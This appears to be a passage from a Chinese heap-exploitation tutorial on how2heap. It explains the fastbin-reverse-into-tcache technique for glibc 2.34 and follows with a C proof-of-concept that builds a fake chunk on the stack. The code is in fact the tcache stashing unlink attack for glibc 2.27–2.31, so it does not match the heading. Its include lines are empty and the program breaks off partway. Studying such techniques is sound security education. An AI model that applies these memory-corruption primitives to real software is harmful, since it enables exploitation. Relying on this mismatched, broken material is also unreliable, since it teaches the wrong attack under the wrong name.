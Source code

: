 [](#how2heap深入浅出学习堆利用（二）)how2heap 深入浅出学习堆利用（二）
==============================================

fast_bin_reverse_into_tcache_glibc2.34
--------------------------------------

### 原理

修改 fastbin 释放的 chunk 的 fd 指针，指向伪造的 chunk 地址，实现任意地址覆盖。  
在从 fast bin 中 malloc 的时候取出一个 chunk，会将剩余的 chunk 放回到 tcahce 中。而 fd 指针已经修改为 fake_chunk_addr，所以 fake_chunk 也会进入 tcache bin 的尾部，再次 malloc 的时候就会申请出来。

### POC

how2heap 源码

```
#include #include #include int main(){
    unsigned long stack_var[0x10] = {0};
    unsigned long *chunk_lis[0x10] = {0};
    unsigned long *target;
 
    setbuf(stdout, NULL);
 
    printf("This file demonstrates the stashing unlink attack on tcache.\n\n");
    printf("This poc has been tested on both glibc-2.27, glibc-2.29 and glibc-2.31.\n\n");
    printf("This technique can be used when you are able to overwrite the victim->bk pointer. Besides, it's necessary to alloc a chunk with calloc at least once. Last not least, we need a writable address to bypass check in glibc\n\n");
    printf("The mechanism of putting smallbin into tcache in glibc gives us a chance to launch the attack.\n\n");
    printf("This technique allows us to write a libc addr to wherever we want and create a fake chunk wherever we need. In this case we'll create the chunk on the stack.\n\n");
 
    // stack_var emulate the fake_chunk we want to alloc to
    printf("Stack_var emulates the fake chunk we want to alloc to.\n\n");
    printf("First let's write a writeable address to fake_chunk->bk to bypass bck->fd = bin in glibc. Here we choose the address of stack_var[2] as the fake bk. Later we can see *(fake_chunk->bk + 0x10) which is stack_var[4] will be a libc addr after attack.\n\n");
 
    stack_var[3] = (unsigned long)(&stack_var[2]);
 
    printf("You can see the value of fake_chunk->bk is:%p\n\n",(void*)stack_var[3]);
    printf("Also, let's see the initial value of stack_var[4]:%p\n\n",(void*)stack_var[4]);
    printf("Now we alloc 9 chunks with malloc.\n\n");
 
    //now we malloc 9 chunks
    for(int i = 0;i < 9;i++){
        chunk_lis[i] = (unsigned long*)malloc(0x90);
    }
 
    //put 7 chunks into tcache
    printf("Then we free 7 of them in order to put them into tcache. Carefully we didn't free a serial of chunks like chunk2 to chunk9, because an unsorted bin next to another will be merged into one after another malloc.\n\n");
 
    for(int i = 3;i < 9;i++){
        free(chunk_lis[i]);
    }
 
    printf("As you can see, chunk1 & [chunk3,chunk8] are put into tcache bins while chunk0 and chunk2 will be put into unsorted bin.\n\n");
 
    //last tcache bin
    free(chunk_lis[1]);
```